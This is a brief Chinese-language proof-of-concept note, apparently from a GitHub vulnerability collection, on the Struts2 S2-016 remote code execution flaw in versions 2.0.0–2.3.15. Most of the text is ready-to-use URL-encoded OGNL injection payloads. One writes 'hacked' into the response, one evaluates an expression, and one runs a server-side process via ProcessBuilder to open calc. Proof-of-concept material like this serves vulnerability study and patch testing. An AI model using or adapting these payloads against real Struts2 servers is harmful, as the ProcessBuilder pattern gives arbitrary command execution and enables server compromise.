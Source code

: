 # Struts2远程代码执行

受影响版本:

- 2.0.0-2.3.15

详情[参看](https://cwiki.apache.org/confluence/display/WW/S2-016),与CVE-2013-2248一样。

POC过程:

<pre>
http://localhost:8080/struts2demo/HelloWorld.action?redirect:%24%7b%23req%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27)%2c%23a%3d%23req.getSession()%2c%23matt%3d%23context.get(%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27)%2c%23matt.getWriter().print(%27hacked%27)%2c%23matt.getWriter().flush()%2c%23matt.getWriter().close()%7d
</pre>

简单测试:

<pre>
localhost:8080/struts2demo/HelloWorld.action?action:%2525%7b3*4%7d
</pre>

调用action为3的。  

调用计算器程序,使用redirect来实现:

<pre>
http://localhost:8080/struts2demo/HelloWorld.action?redirect:%24%7b(new+java.lang.ProcessBuilder(new+java.lang.String%5b%5d%7b%27calc%27%7d)).start()%7d
</pre>

结果如下:

![hacker](hacker.jpg)